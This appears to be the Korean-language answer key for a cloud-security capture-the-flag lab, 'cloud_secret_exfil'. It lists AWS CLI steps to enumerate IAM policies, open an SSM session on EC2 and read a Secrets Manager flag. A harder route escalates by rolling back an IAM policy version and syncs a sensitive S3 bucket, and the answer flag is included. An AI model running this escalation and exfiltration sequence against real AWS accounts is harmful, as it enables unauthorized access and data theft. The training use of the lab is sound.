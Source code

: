 # [cloud_secret_exfil] 모범 답안

## Easy Route
1. 최초 제공된 2개의 자격 증명 중에서 easy route의 자격 증명을 이용하여 프로파일을 등록한다.
```bash
aws configure --profile easyroute
```

2. 먼저 사용자에 대한 정보를 확인한다.
```bash
aws sts get-caller-identity --profile easyroute
```

3. 해당 사용자의 인라인 정책을 확인한다.
```bash
aws iam list-user-policies --user-name attacker-user-2 --profile easyroute
```

4. 해당 인라인 정책의 권한을 확인하여 ssm관련 권한이 있는 것을 확인한다.
```bash
aws iam get-user-policy --user-name attacker-user-2 --policy-name attacker-user-policy-2 --profile easyroute
```

5. ssm 세션을 시작하기 위해 session-manager plugin을 설치한다.
```bash
curl -o session-manager-plugin.deb https://s3.amazonaws.com/session-manager-downloads/plugin/latest/ubuntu_64bit/session-manager-plugin.deb

sudo dpkg -i session-manager-plugin.deb

session-manager-plugin
```

6. 접속할 인스턴스의 id를 확인한다.
```bash
aws ec2 describe-instances --query "Reservations[].Instances[].InstanceId" --output text --profile easyroute
```


7. ssm 세션을 시작하여 ec2내로 접속을 한다.
```bash
aws ssm start-session --target <ec2id> --profile easyroute
```


8. SecretsManager의 비밀 목록을 확인한다.
```bash
aws secretsmanager list-secrets
```

9. Secret을 확인하여 비밀 FLAG를 획득한다.
```bash
aws secretsmanager get-secret-value --secret-id secretFLAG-OrcAHYV87Uuzb1KB
```
<br/><br/>
## Hard Route
10. v2의 정책으로 교체해준다.
```bash
aws iam set-default-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```

11. S3에 접근이 가능해졌고 기밀데이터를 유출한다.
```bash
aws s3 ls

aws s3 ls s3://policy-rollback-rce-sensitive-data --profile rce_server

aws s3 sync s3://policy-rollback-rce-sensitive-data ./ --profile rce_server
```
flag.txt를 받아올 수 있다.

`flag` : FLAG{pO1iCy_rollb4CK_rcE_5uCCeS5}

